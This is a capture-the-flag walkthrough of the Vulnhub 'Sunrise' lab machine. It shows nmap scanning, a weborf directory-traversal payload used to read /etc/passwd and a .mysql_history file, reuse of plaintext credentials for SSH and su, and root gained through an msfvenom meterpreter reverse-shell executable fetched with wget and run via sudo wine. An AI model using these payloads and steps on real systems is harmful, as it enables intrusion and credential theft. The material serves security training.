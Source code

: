 ```yaml
---
title: "Vulnhub: Sunrise"
layout: archive
date:   2021-01-07
tags: Vulnhub
tags_label: true
---
```

This is a beginner-level machine part of the sunset series from vulnhub. I would definitely recommend it, it will expose you to some interesting skills/concepts

### Scanning:

Finding the machine on the network using nmap:

```
crazyeights@es-base:~$ nmap -PS 192.168.56.1-255

Nmap scan report for 192.168.56.135
Host is up (0.00014s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

Getting more details about running services:

```
crazyeights@es-base:~$ nmap -A -p- 192.168.56.135
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-07 13:32 EST
Nmap scan report for 192.168.56.135
Host is up (0.000067s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp   open  http       nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '192.168.56.1' is not allowed to connect to this MariaDB server
8080/tcp open  http-proxy Weborf (GNU/Linux)
| fingerprint-strings: 
```

### Web:

I always check web first

Here is the index page:
    
![](/assets/images/sunrise/sunrise1.png)

On port 8080, we find weborf running:
![](/assets/images/sunrise/sunrise2.png)

The weborf web application might have vulnerabilities
    
Searching for exploits using searchsploit:
```
crazyeights@es-base:~$ searchsploit weborf
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
weborf 0.12.2 - Directory Traversal           | linux/remote/14925.txt
Weborf HTTP Server - Denial of Service        | multiple/dos/14012.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Proof of Concept for the Directory Traversal vulnerability:
```
Exploit: GET /..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

Testing it out using the same command gives us the contents of /etc/passwd:
```
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[SNIP]
sunrise:x:1000:1000:sunrise,,,:/home/sunrise:/bin/bash
[SNIP]
weborf:x:1001:1001:,,,:/home/weborf:/bin/bash
mysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false
crazyeights@es-base:~$ 
```

*   There are two users with home folders: weborf and sunrise
*   When we checkout the content of sunrises home directory we can see the user flag: (cleaned up for clarity)

```
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2f
[SNIP]
user.txt
```

Getting the user flag:

```
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2fuser.txt
a6050aecf6303b0b824038807d823a89
```

There is much less in the weborf home folder, only the weborf application directory (cleaned up for clarity)

```
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f
weborf-0.12.2/
```

Since we cannot see hidden files or folders (beginning with ., ie. .ssh) we use dirb to look for them:
```
crazyeights@es-base:~$ dirb http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f
---- Scanning URL: http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f/ ----
+ http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f/.bashrc (CODE:200|SIZE:3526)                                                                                                                     
+ http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f/.mysql_history (CODE:200|SIZE:83)                                                                                                                
[SNIP]
```

*   We find interesting file: .mysql\_history
*   When getting its contents we find the sql password for the user weborf:

```
crazyeights@es-base:~$ curl  http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f.mysql_history
show databases;
ALTER USER 'weborf'@'localhost' IDENTIFIED BY 'iheartrainbows44'; 
```

### User:

It is also the password for SSH:
```
crazyeights@es-base:~$ ssh weborf@192.168.56.135
weborf@192.168.56.135's password: 
Linux sunrise 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec  5 16:24:32 2019 from 192.168.1.146
weborf@sunrise:~$ 
```

*   Check for additional user information in mysql since we know the password for the user weborf:
*   Using the database mysql, and the table user, the user sunrise has their password stored in plaintext:

```
weborf@sunrise:~$ mysql -u weborf -p'iheartrainbows44'
[SNIP]
| localhost | sunrise | thefutureissobrightigottawearshades       | N           | N           | N           
[SNIP]
MariaDB [mysql]> 
```

Login as the user sunrise:

```
weborf@sunrise:~$ su sunrise
Password: 
sunrise@sunrise:/home/weborf$ 
```

### Root:

Find programs the user sunrise can run with elevated privileges:

```
sunrise@sunrise:/home/weborf$ sudo -l
[sudo] password for sunrise: 
Matching Defaults entries for sunrise on sunrise:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunrise may run the following commands on sunrise:
    (root) /usr/bin/wine
```

*   The user sunrise can run the wine command (windows emulator) with root privileges
    
*   Use msfvenom to create an executable containing a reverse shell:
    
```
crazyeights@es-base:~$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.1 lport=1234 -f exe >evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
crazyeights@es-base:~$ 
```

Copy the exe to http server:

```
crazyeights@es-base:~$ sudo cp evil.exe /var/www/html/
[sudo] password for crazyeights: 
crazyeights@es-base:~$ sudo service apache2 start
crazyeights@es-base:~$
```

Download on the target machine:
```
sunrise@sunrise:/tmp$ wget http://192.168.56.1/evil.exe
```

Using msf with multi/handler for the listener, set the listening host, and port and run:
```
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > run
```

Run the exploit using wine as root:

```
sunrise@sunrise:/tmp$ sudo /usr/bin/wine evil.exe
```

The reverse shell will connect to the listener, and we now have root privileges:

```
[*] Started reverse TCP handler on 192.168.56.1:1234 
[*] Sending stage (176195 bytes) to 192.168.56.135
[*] Meterpreter session 1 opened (192.168.56.1:1234 -> 192.168.56.135:41564) at 2021-01-07 14:17:27 -0500
```

Checking uid:

```
meterpreter > getuid
Server username: sunrise\root

```

Get flag root/root.txt

```
meterpreter > cat root.txt 
[SNIP]
Thanks for playing! - Felipe Winsnes (@whitecr0wz)

24edb59d21c273c033aa6f1689b0b18c
meterpreter > 
```

FIN.